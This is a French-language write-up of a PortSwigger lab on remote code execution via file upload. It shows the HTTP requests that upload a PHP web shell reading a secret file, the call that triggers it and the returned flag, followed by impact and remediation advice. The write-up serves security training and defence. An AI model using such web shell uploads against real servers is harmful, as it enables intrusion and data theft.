


# 🧪 Lab PortSwigger – Remote code execution via web shell upload

## 🎯 Objectif

Exploiter une faille de file upload pour obtenir un web shell et exfiltrer des données sensibles.

## 🧩 Contexte

- Fonctionnalité observée : upload de photo de profil via requête POST.
- Problème : aucune vérification sur le fichier avant stockage.
- Vulnérabilité : File Upload Vulnerability → Remote Code Execution.

## 🚀 Proof of Concept (PoC)

Requête modifiée :

```http
POST /my-account/avatar HTTP/2
Host: vulnerable-app.net
Cookie: session=xxxx

------WebKitFormBoundary
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: image/jpeg

<?php echo file_get_contents('/home/carlos/secret'); ?>
------WebKitFormBoundary--
```

Appel du webshell :

```http
GET /files/avatars/exploit.php HTTP/2
Host: vulnerable-app.net
Cookie: session=xxxx
```

Réponse :

```
FLAG: wjAW9f3kHROra0TSX0ymXjHY4Nr44PCV
```

## ⚠️ Impact

Un attaquant peut uploader un fichier malveillant et exécuter du code arbitraire côté serveur.  
Cela entraîne une compromission totale de l’application et une fuite de données sensibles.  
Gravité estimée : **Critique (CVSS ~9.0)**.

## 📸 Preuves

- Capture d’écran de l’upload du fichier malveillant.



- Capture d’écran de l’exécution du webshell.



## 🔒 Remédiation

- Implémenter une **whitelist stricte** des extensions autorisées.
- Vérifier le **MIME type** et le contenu réel du fichier.
- Stocker les fichiers dans un répertoire isolé sans droits d’exécution.
- Supprimer les droits d’exécution sur le dossier d’upload.
- Ajouter une analyse antivirus/sandbox pour les fichiers uploadés.
- Séparer clairement les données et le code

## 📌 Résumé

- Vulnérabilité : File upload → Remote Code Execution
- Impact : Compromission totale du serveur et fuite de données sensibles
- Gravité : Critique
- Outils utilisés : Burp Suite (Repeater)
- Niveau de difficulté : ⭐⭐✩✩✩